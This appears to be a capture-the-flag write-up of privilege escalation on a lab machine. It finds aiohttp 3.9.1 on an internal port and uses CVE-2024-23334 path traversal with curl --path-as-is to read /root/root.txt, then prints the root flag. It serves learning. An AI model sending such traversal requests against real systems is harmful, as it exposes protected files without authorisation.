





Taking a look at the open ports from within the SSH session, we see that port 8080 is open internally on localhost.
```bash
$ ss -tlnp
```


To know what are runing on 8080 port we can do:
```bash
$ curl localhost:8080 -I
```



If we search in google the aiohttp/3.9.1 we found a CVE-2024-23334 → Proof-of-Concept for LFI/Path Traversal vulnerability in Aiohttp =< 3.9.1 https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh



We see that the payload is in the directory /static/ but I don't know if in this machine this directory exist, so let me check a valid directory:
```bash
$ curl localhost:8080
```



Seeing this we can do a CURL petition as this python code do. So we can try to execute:
```bash
$ curl -s -X GET “http://localhost:8080/assets/../../../../../../../../../root/root.txt” --path-as-is
```


```bash
Root Flag → 9ec64fd8cd9c36bc81f32f7da0daa0c9
```


[Back](README.md)